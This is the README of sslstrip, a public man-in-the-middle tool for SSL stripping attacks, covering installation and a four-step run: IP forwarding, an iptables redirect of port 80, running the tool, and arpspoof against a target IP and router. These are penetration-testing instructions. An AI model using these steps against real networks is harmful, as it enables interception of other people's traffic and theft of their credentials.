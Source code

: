 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

Ported from Python v2 to v3 by Jay Townsend (theHarvester, Discover, and DNSrecon).
* [![Twitter Follow](https://img.shields.io/twitter/follow/jay_townsend1.svg?style=social&label=Follow)](https://twitter.com/jay_townsend1) Jay "L1ghtn1ng" Townsend @jay_townsend1

Requirements:  
   This project uses **uv** for dependency management.
   Get **uv** from [here](https://docs.astral.sh/uv/getting-started/installation/) 

Install the dependencies in a virtual environment

```uv sync```
   
Running:  
   sslstrip can be run from the source base without installation.  
   Run as a normal user to see options.  
   ```uv run sslstrip.py -h```

   1. As root, enable IP forwarding:<br>
      ```echo "1" > /proc/sys/net/ipv4/ip_forward```

   2. As root, setup iptables to intercept HTTP requests:<br>
      ```iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <your listen port>```
   
   3. Run sslstrip with the options you prefer.
	
   4. As root, run arpspoof to redirect traffic to your host:<br>
      ```arpspoof -i <your network interface> -t <target IP> <routers IP>```
